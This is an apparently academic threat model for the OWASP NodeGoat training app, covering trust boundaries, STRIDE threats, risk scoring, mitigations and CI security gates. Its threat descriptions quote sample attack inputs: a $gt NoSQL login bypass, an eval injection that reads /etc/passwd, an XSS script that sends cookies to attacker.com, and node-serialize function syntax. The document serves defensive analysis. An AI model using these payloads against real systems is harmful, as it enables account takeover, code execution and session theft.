

# Threat Model & Risk Assessment: OWASP NodeGoat DevSecOps Architecture

**Project:** SLIIT IE3142 DevSecOps Academic Assessment  
**Author:** Chanidu Deshan (`deshanchanidu@gmail.com`)  
**Target System:** OWASP NodeGoat (Node.js / Express / MongoDB)  
**Date:** 2026-09-29  
**Version:** 1.0.0  

---

## 1. System Architecture & Trust Boundaries

The NodeGoat deployment architecture is containerized into a segregated two-tier environment consisting of a public-facing Web application container (`web`) and an isolated, non-exposed database container (`db`).

### 1.1 Mermaid Architecture Diagram



### 1.2 ASCII Architectural Diagram

```text
+-----------------------------------------------------------------------------+
|                            UNTRUSTED ZONE                                   |
|  [ External User / Attacker ]           [ Developer Workstation ]           |
+-----------------------------------------------------------------------------+
               | (HTTP :4000)                             | (git push)
================ TRUST BOUNDARY 1 ======================== TRUST BOUNDARY 4 ==
               v                                          v
+------------------------------------+  +-------------------------------------+
| HOST INGRESS (:4000)               |  | GITHUB ACTIONS CI/CD RUNNER         |
| Forwarded to container web:4000    |  |  |- Gate 1: Semgrep (SAST)          |
+------------------------------------+  |  |- Gate 2: npm audit (SCA)         |
               |                        |  |- Gate 3: Gitleaks (Secrets)      |
================ TRUST BOUNDARY 2 ======|  |- Gate 4: Trivy (Container)       |
               v                        +-------------------------------------+
+-----------------------------------------------------------------------------+
| DOCKER BRIDGE NETWORK: backend-net (Isolated)                               |
|                                                                             |
|  +-----------------------------------------------------------------------+  |
|  | Web Container (`web`) - Execution Context: USER node (UID 1000)        |  |
|  | - Express.js Routing (app/routes/)                                    |  |
|  | - Business Logic & Serialization                                      |  |
|  | - User Session & Authentication Management                            |  |
|  +-----------------------------------------------------------------------+  |
|                                     |                                       |
|============================= TRUST BOUNDARY 3 ==============================|
|                                     v (mongodb://db:27017 - No Host Port)   |
|  +-----------------------------------------------------------------------+  |
|  | Database Container (`db`) - Service: mongo:4.4                         |  |
|  | - Internal Port: 27017 (Exclusively bound to backend-net)             |  |
|  | - Persistent Volume Mount: mongodb_data -> /data/db                   |  |
|  +-----------------------------------------------------------------------+  |
+-----------------------------------------------------------------------------+
```

### 1.3 Trust Boundary Definitions

| Boundary | Description | Attack Vectors & Threat Scenarios |
| :--- | :--- | :--- |
| **TB-1: External Client &rarr; Web Ingress** | Interconnect between public internet clients and the Express HTTP listener on host port 4000. | NoSQL injection, XSS, malicious serialization payloads, request tampering, credential stuffing. |
| **TB-2: Web Ingress &rarr; Application Logic** | Transition of untrusted request parameters (`req.body`, `req.query`, `req.cookies`) into backend processing routines. | Arbitrary code execution via `eval()`, prototype pollution, insecure object deserialization. |
| **TB-3: Web Container &rarr; Database Service** | Communication over `backend-net` between the Node.js runtime and MongoDB on internal port 27017. | Database tampering, lateral movement, unauthorized data exfiltration if network segmentation fails. |
| **TB-4: Workstation &rarr; CI/CD Pipeline** | Code integration point between developer workstations and automated build runners. | Secret leakage, compromised dependencies, unauthorized commit attribution, pipeline bypass. |

---

## 2. STRIDE Threat Analysis

### Threat 1: NoSQL Injection via Authentication Payload Tampering
* **STRIDE Category:** Tampering / Elevation of Privilege
* **Affected Component:** `app/data/user-dao.js:94-98` (invoked from `app/routes/session.js`)
* **Description:** An unauthenticated attacker submits JSON payloads containing MongoDB query operators (e.g., `{"userName": {"$gt": ""}, "password": {"$gt": ""}}`) to the `/login` endpoint. Express body parser constructs nested objects rather than literal strings, allowing the database query `users.findOne({ userName, password })` to evaluate to true for the first matching record in the collection.
* **Impact:** Complete authentication bypass, unauthorized administrative session creation, and full access to private user profiles.

---

### Threat 2: Server-Side JavaScript Injection (SSJS / RCE) in Contributions
* **STRIDE Category:** Elevation of Privilege / Information Disclosure
* **Affected Component:** `app/routes/contributions.js:29-32`
* **Description:** The contributions calculation handler evaluates user-supplied strings directly via `eval("total = " + preTax + " + " + afterTax)`. An authenticated user submits JavaScript expressions or Node.js runtime API calls (e.g., `res.end(require('child_process').execSync('cat /etc/passwd'))`).
* **Impact:** Immediate Remote Code Execution (RCE) on the server within the context of the running container process, arbitrary file read/write, and potential host escape attempts.

---

### Threat 3: Stored Cross-Site Scripting (XSS) via Profile Attributes
* **STRIDE Category:** Tampering / Information Disclosure
* **Affected Component:** `app/routes/profile.js:92-105` & `app/views/profile.html:45-55`
* **Description:** User profile update endpoints accept raw HTML and JavaScript payloads (e.g., `<script>document.location='http://attacker.com/steal?c='+document.cookie</script>`) in fields like `firstName`, `lastName`, or `bankAcc`. These values are stored unescaped in MongoDB and rendered raw in template views.
* **Impact:** Execution of malicious scripts in the context of other users' (or administrators') browser sessions, session hijacking via cookie theft, and client-side defacement.

---

### Threat 4: Insecure Object Deserialization via Tampered Profile Cookie
* **STRIDE Category:** Elevation of Privilege / Tampering
* **Affected Component:** `app/routes/profile.js:25-35`
* **Description:** The application utilizes `node-serialize` to unserialize base64-encoded cookie payloads (`req.cookies.profile`). `node-serialize` allows arbitrary function execution when deserializing objects with the `_$$ND_FUNC$$_` syntax (CVE-2017-5941).
* **Impact:** Unauthenticated or authenticated Remote Code Execution (RCE) allowing attackers to execute arbitrary system commands via crafted HTTP request headers.

---

### Threat 5: Unauthorized Direct Network Access to MongoDB Port 27017
* **STRIDE Category:** Information Disclosure / Spoofing
* **Affected Component:** `docker-compose.yml` (Database service configuration)
* **Description:** In unhardened setups, exposing port `27017:27017` on host interface `0.0.0.0` allows unauthorized external or host processes to connect directly to the MongoDB instance without passing through application-level authentication.
* **Impact:** Complete database dump, data destruction (ransomware), and unauthorized tampering with stored credentials and session data.

---

## 3. Risk Assessment Matrix (5x5)

### 3.1 Scoring Criteria

| Likelihood Rating | Criteria | Impact Rating | Criteria |
| :---: | :--- | :---: | :--- |
| **1 (Rare)** | Complex attack chain, requires specialized access. | **1 (Insignificant)** | Negligible operational or security disruption. |
| **2 (Unlikely)** | Low exploitation rate, requires custom exploit code. | **2 (Minor)** | Minor localized information leak; non-sensitive data. |
| **3 (Moderate)** | Exploitable with standard tools; requires basic auth. | **3 (Moderate)** | Limited data breach; account compromise without RCE. |
| **4 (Likely)** | Publicly known flaw; simple HTTP request payload. | **4 (Major)** | Broad data compromise, authentication bypass. |
| **5 (Almost Certain)**| Automated botnet target; zero auth required; trivial. | **5 (Catastrophic)** | Full RCE, complete database loss, host compromise. |

```text
Risk Score = Likelihood x Impact
- 1 to 4:   Low (L)
- 5 to 9:   Medium (M)
- 10 to 14: High (H)
- 15 to 25: Critical (C)
```

### 3.2 5x5 Likelihood vs. Impact Grid

```text
+-------------------+-----+-----+-----+-----+-----+
| 5 (Almost Certain)|  5  | 10  | 15  | 20  | 25  |
| 4 (Likely)        |  4  |  8  | 12  | 16  | 20  |
| 3 (Moderate)      |  3  |  6  |  9  | 12  | 15  |
| 2 (Unlikely)      |  2  |  4  |  6  |  8  | 10  |
| 1 (Rare)          |  1  |  2  |  3  |  4  |  5  |
+-------------------+-----+-----+-----+-----+-----+
| IMPACT ->         |  1  |  2  |  3  |  4  |  5  |
+-------------------+-----+-----+-----+-----+-----+
```

### 3.3 Pre-Mitigation Threat Evaluation

| Threat ID | Threat Name | Likelihood (1-5) | Impact (1-5) | Pre-Mitigation Score | Severity Level | Contextual Justification |
| :---: | :--- | :---: | :---: | :---: | :---: | :--- |
| **T-01** | NoSQL Injection (Auth Bypass) | 5 | 5 | **25** | **Critical** | **Likelihood:** Trivial JSON query payload (`$gt`) sent to public `/login`.<br>**Impact:** Complete bypass of authentication mechanism granting admin session. |
| **T-02** | SSJS / `eval()` RCE | 4 | 5 | **20** | **Critical** | **Likelihood:** Exploitable by any logged-in user via standard numeric input fields.<br>**Impact:** Arbitrary command execution on the application server. |
| **T-03** | Stored Cross-Site Scripting (XSS) | 4 | 3 | **12** | **High** | **Likelihood:** Common input vector with no client/server validation.<br>**Impact:** Session hijacking of users viewing infected profiles. |
| **T-04** | Insecure Deserialization (`node-serialize`) | 4 | 5 | **20** | **Critical** | **Likelihood:** Well-documented public exploit payload (CVE-2017-5941) via HTTP cookie.<br>**Impact:** Full server compromise via arbitrary payload execution. |
| **T-05** | Unauthorized MongoDB Port Exposure | 3 | 5 | **15** | **Critical** | **Likelihood:** Scanning engines routinely detect exposed 27017 ports.<br>**Impact:** Full unauthenticated database dump and table manipulation. |

---

## 4. Threat-to-Control Mapping

| Threat ID & Name | STRIDE | Pre-Risk | Mitigating Control (Technical Implementation) | Enforcement Location | Post-Risk |
| :--- | :--- | :---: | :--- | :--- | :---: |
| **T-01: NoSQL Injection** | Tampering / EoP | **25 (Critical)** | Implement strict string type checking and MongoDB query parameter sanitization to block operator injection (`$gt`, `$ne`). | [app/data/user-dao.js](app/data/user-dao.js)<br>[app/routes/session.js](app/routes/session.js) | **2 (Low)** |
| **T-02: SSJS via `eval()`** | EoP / Info Disc | **20 (Critical)** | Replace `eval()` with deterministic `Number()` arithmetic parsing and strict numeric regex assertions. | [app/routes/contributions.js](app/routes/contributions.js) | **2 (Low)** |
| **T-03: Stored XSS** | Tampering / Info Disc | **12 (High)** | Apply `validator.escape()` on input and enforce contextual HTML output encoding in template engines. | [app/routes/profile.js](app/routes/profile.js)<br>[app/views/profile.html](app/views/profile.html) | **2 (Low)** |
| **T-04: Insecure Deserialization** | EoP / Tampering | **20 (Critical)** | Eliminate `node-serialize` dependency entirely; replace with secure `JSON.parse()` and schema validation. | [app/routes/profile.js](app/routes/profile.js)<br>`package.json` | **2 (Low)** |
| **T-05: Direct DB Port Exposure** | Info Disc / Spoofing | **15 (Critical)** | Isolate MongoDB within private Docker bridge network (`backend-net`) with zero exposed host port mappings. | [docker-compose.yml](docker-compose.yml)<br>[Dockerfile](Dockerfile) | **1 (Low)** |

---

## 5. Security Gates & Continuous Verification Matrix

| Pipeline Gate | Tool | Target Vulnerabilities / Risks | Blocking Policy |
| :--- | :--- | :--- | :--- |
| **Gate 1: SAST** | Semgrep (`p/javascript`, `p/owasp-top-ten`) | T-01 (NoSQLi), T-02 (eval SSJS), T-03 (XSS), T-04 (node-serialize) | Fails build if High/Critical findings are detected in changed code. |
| **Gate 2: SCA** | `npm audit` | T-04 (Vulnerable third-party libraries) | Fails build on every unaccepted High/Critical advisory; only documented, unfixable Swig-chain advisories are accepted with compensating controls. |
| **Gate 3: Secrets** | Gitleaks | Hardcoded API keys, JWT secrets, database connection credentials | Fails build if any unmasked secret is detected in git history. |
| **Gate 4: Container** | Trivy | Base OS image vulnerabilities, vulnerable system packages in `node:20-alpine` | Fails build on High/Critical vulnerabilities with available fixes. |
